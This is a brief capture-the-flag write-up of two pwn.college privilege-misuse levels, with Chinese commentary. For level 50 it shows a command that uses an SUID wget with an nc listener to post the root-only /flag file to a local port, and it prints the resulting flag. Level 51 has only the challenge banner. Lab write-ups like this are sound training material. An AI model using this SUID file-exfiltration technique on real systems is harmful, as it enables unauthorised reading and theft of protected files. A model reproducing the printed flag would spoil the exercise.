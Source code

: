 ## level50 Just straight up wasn't designed to let you read files!
```
hacker@program-misuse-level-50:~$ sh file.sh
Welcome to ./babysuid_level50!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/wget.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level50) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/wget!
```
`wget`:下载器
```
hacker@program-misuse-level-50:~$ nc -lp 8888 & wget --post-file=/flag http://127.0.0.1:8888
[1] 5873
--2023-07-22 13:39:17--  http://127.0.0.1:8888/
Connecting to 127.0.0.1:8888... connected.
POST / HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 127.0.0.1:8888
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 57

HTTP request sent, awaiting response... pwn.college{M8oJZxXsT1hCl5_WCWqpA-ITlJZ.0lM5EDL2QjMyMzW}

```
有个叫文件上传的功能，这个看了一个别人的答案

## level51 Shows how dangerous it is to allow users to load their own code as plugins into the program (but figuring out how is the hard part)!
```
hacker@program-misuse-level-51:~$ sh file.sh
Welcome to ./babysuid_level51!

This challenge is part of a series of programs that
show you how dangerous it is to allow users to load their own code as plugins into the program (but figuring out how is the hard part!).

I just set the SUID bit on /usr/bin/ssh-keygen.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level51) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/ssh-keygen!
```
这个我是一点儿都不会，看了一下讲解才明白，G
